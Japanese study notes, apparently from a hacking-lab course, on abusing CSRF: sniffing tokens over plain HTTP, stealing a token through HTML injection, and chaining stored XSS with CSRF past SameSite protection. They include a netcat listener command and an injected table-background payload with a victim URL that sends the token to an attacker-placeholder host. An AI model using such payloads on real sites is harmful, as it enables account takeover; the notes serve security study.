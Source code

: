 
## GETリクエストの悪用
以下の例では、ちょっと前提条件が厳しすぎるので、あまり使えなさそうな気もする
自分で他の前提条件の攻撃手法を調べる

- 前提としている状況
	- ターゲットの Web アプリは HTTP
	- 攻撃者は同じネットワークにいて、Wireshark や tcpdump などでパケットを盗聴できる

- その盗聴によって、CSRF トークンの値がそのまま見えてしまう
	- 当たり前
- 攻撃者が、同じCRSFトークン入れればなりすましできるってことだよね
	- 当たり前


## POSTリクエストの悪用
GETリクエストではなく、POSTリクエストを必要とする場合も、攻撃者は自動送信されるフォームを埋め込むことで攻撃が可能

HTMLインジェクションとXSSを利用してユーザーのCSRFトークンを窃取する
1. とあるサイトのURLに、メールアドレスが露出していることを確認する
	 - `http://sampledomain/app/delete/<your-email>`
2. メールアドレスがなんのサニタイズもなく、表示されていると考え、自分のメールアドレスを以下のように変更する
	- `<h1>h1<u>underline<%2fu><%2fh1>`
3. 再度、メールアドレスがURLに露出している部分にアクセスする
	- すると、以下のように、そのままURLに書いてあることから、HTMLインジェクションが行われていることが確認できる
		- HTMLインジェクション : 任意のタグ・属性・スクリプトをページに挿入できる攻撃
		- XSS : 任意のJSを実行できる攻撃
	- ![](https://i.imgur.com/KSFmwP2.png)
4. 3で、HTMLインジェクションが実行でき、XSSも実行できることがわかったため、CSRFトークンを窃取する。まず、netcatで待ち受ける
	- `nc -nlvp 8000`
5. メールアドレスに、以下のペイロードを入力したURLを被害者に送る
	- メールアドレスに設定するペイロード : `<table%20background='%2f%2f<VPN/TUN Adapter IP>:PORT%2f`
	- ターゲットに送るURL : `http://csrf.htb.net/app/delete/%3Ctable background='%2f%2f<VPN/TUN Adapter IP>:8000%2f`
6. すると、攻撃者側にCSRFトークンを含んだ接続が飛んでくる


## XSS & CSRF Chaining

攻撃者が CSRF 保護を回避できたとしても、同一オリジン／SameSite 制限によってクロスサイトリクエストを作成できない場合がある
このような場合は、脆弱性を**連鎖（チェイン** させることで最終的に CSRFを行うことができる

対象アプリケーションについての前提知識
- サーバー設定によってSame Origin／SameSite 保護を CSRF 対策として備えている。
- アプリケーションの Countryフィールドには、**Stored XSS 攻撃**の脆弱性がある
	- ![](https://i.imgur.com/jgvC2sW.png)


Same Origin/siteの設定によって、単純なCSRFは行えないが、 Stored XSSの脆弱性を用いることでCSRF攻撃を行うことができる
- 具体的には、このストアド XSS 脆弱性を利用して、Web アプリケーションに対して状態を変更するリクエストを発行する
- XSS を経由するリクエストは同一ドメインから送られるため、同一オリジン／SameSite 保護をバイパスできる

ここでは、CSRF攻撃によってプロフィールを公開させることを目標にする
- 具体的には、攻撃者Aが準備したで、Countryに悪意のあるスクリプトを入れたプロフィールページを見たら、Stored XSSが発火して、被害者のプロフィールが勝手に公開になると言う攻撃
